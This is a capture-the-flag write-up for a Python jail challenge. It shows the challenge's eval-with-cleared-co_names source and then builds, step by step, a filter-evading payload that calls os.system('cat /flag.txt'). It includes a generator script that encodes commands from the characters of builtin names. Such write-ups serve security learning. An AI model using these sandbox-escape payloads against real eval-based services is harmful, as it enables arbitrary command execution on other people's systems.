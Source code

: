# A Horse with No Names

Categories: Jail/Python

Description:
> A Horse with No Names
>
>- 117 points
>
>"really confused horse in rembrandt style "
>
>
>Can you make it through the desert on [a horse with no names](https://www.youtube.com/watch?v=na47wMFfQCo)?
>
> `nc horse.chal.uiuc.tf 1337`
>
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Solution

The source code of this challenge is pretty minimal

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.match(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A single horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

Let's examine the requirements to reach the `eval` statement:

1. `re.match(r"[a-zA-Z]{4}", horse)` must return false. This means that our input must not start with exactly 4 alphabetic characters.
2. `len(set(re.findall(r"[\W]", horse))) > 4` must also return false. The `\W` is equivalent to `[^a-zA-Z0-9_]` according to the [documentation](https://docs.python.org/3/library/re.html#regular-expression-syntax).
  - So, for example, our input must contain `<=4` symbols, counting spaces also as symbols.
  - Underscores are excluded
3. `eval` evaluates a single expression, so we have to make our payload a single expression or make it multiline and wrap it under `exec`.
4. Our input is not directly evaluated. It is filtered through `.replace(co_names=()`.

*(One thing to keep in mind is that we can use as many numbers as we want. So, for example, we could have something like `arr[123567]` in our input.)*

The weirdest part here is the `.replace(co_names=()`. Let's examine the documentation about what `co_names` are:

* From the [data model documentation](https://docs.python.org/3/reference/datamodel.html) we figure out that: <br/> `co_names` is a tuple containing the names used by the bytecode
* From the [inspect module documentations](https://docs.python.org/3/library/inspect.html) we figure out that: <br/> `co_names`: tuple of names other than arguments and function locals

Let's also visualize this:

```python
horse='print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[14]: ('print', 'str')

modified_code = compile(horse, "<horse>", "eval").replace(co_names=())
eval(modified_code)

# Segmentation fault (core dumped)
```

Hmmm, if the `co_names` get replaced in the bytecode then we pretty certainly crash. But from the documentation of the inspect module above, we can see that arguments and function locals will not appear. So, let's test it:

```python
horse='lambda: print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

That's awesome! We cannot use a `def func():` inside an eval, but `lambda` functions work. So, let's try to construct a payload that will dump the flag within our lambda function.

```python
lambda: __builtins__.__import__("os").system("cat /flag")
```

Now, it is about gradually bypassing the restrictions.

### Bypassing `re.match(r"[a-zA-Z]{4}", horse)`

So, our payload must not start with exactly 4 characters. That's easy to do, we simply wrap our lambda function in parenthesis and also by the chance, invoke it:

```python
(lambda: __builtins__.__import__("os").system("cat /flag"))()
```

### Bypassing symbol restriction

We currently have too many symbols:

```log
$ python desert.modified.py
Begin your journey: (lambda: __builtins__.__import__("os").system("cat /flag"))()
symbols: . ( / : <space> " ) --- (7)
A single horse cannot bear the weight of all those special characters. You return home.
```

Let's analyze this:

* Parenthesis are requires (2 symbols) in order to have function calls
* Dot is required to access the appropriate fields. Another alternative would be `__dict__` and using square brackets `[ ]`, but this seems to be more costly in terms of symbols.
* Colon is required, otherwise we cannot have a lambda.

So, we have to get rid of: `/ <space> "`.

The space in front of the lambda can be removed, so: 

```python
(lambda:__builtins__.__import__("os").system("cat /flag"))()
```

Now, the remaining symbols in the payload are related to strings. However, we can come up with a neat way to generate them. Take for example "os". The character `o` can also be generated from the expression `open.__name__[0]` which is further equivalent to `open.__name__.__getitem__(0)`. Similarly, the character `s` can be generated as `set.__name__.__getitem__(0)`. So, we can generate the string "os" as:

```python
open.__name__.__getitem__(0)+set.__name__.__getitem__(0)
```

In this way, we avoided using the double quote special characters. We can also do the same for the space character and the `/`, by looking at the `__doc__` property which contains a lot of text. However, we introduced a new symbol, `+`. We can also replace that.

When we do `'a'+'b'`, this is equivalent to `'a'.__add__('b')`. So, for "os", we finally have

```python
open.__name__.__getitem__(0).__add__(set.__name__.__getitem__(0))

# Out[17]: 'os'
```

This can be a really tedious process, so let's automate it:

```python
def generator(cmd):
    # Make sure to use the same python version as the target when building the mapping.
    # Target uses Python 3.8.10
    mapping = {
        'o': "open.__name__.__getitem__(0)",
        's': "set.__name__.__getitem__(0)",
        'c': "chr.__name__.__getitem__(0)",
        'h': "hash.__name__.__getitem__(0)",
        'e': "eval.__name__.__getitem__(0)",
        'a': "abs.__name__.__getitem__(0)",
        'd': "divmod.__name__.__getitem__(0)",
        'f': "float.__name__.__getitem__(0)",
        'l': "list.__name__.__getitem__(0)",
        'g': "globals.__name__.__getitem__(0)",
        't': "type.__name__.__getitem__(0)",
        'x': "hex.__name__.__getitem__(2)",
        ' ': "str(hash).__getitem__(9)",
        '-': "str(hash).__getitem__(6)",
        '.': "hash.__doc__.__getitem__(151)",
        '1': "dict.__doc__.__getitem__(361)",
        '/': "divmod.__doc__.__getitem__(20)",
    }
    for k,v in mapping.items():
        assert(k == eval(v))
    
    payload=''
    for ch in cmd:
        encoded_ch = mapping[ch]
        if len(payload) == 0:
            payload = encoded_ch
        else:
            payload += f".__add__({encoded_ch})"
    assert(eval(payload) == cmd)
    return payload

horse = f"(lambda:__builtins__.__import__({generator('os')}).system({generator('cat /flag.txt')}))()"
print(horse)
```

So, let's try out generate payload on the remote:

![success.png](resources/success.png)

And we got the flag!

`uiuctf{my_challenges_have_abandoned_any_pretense_of_practical_applicability_and_im_okay_with_that}`
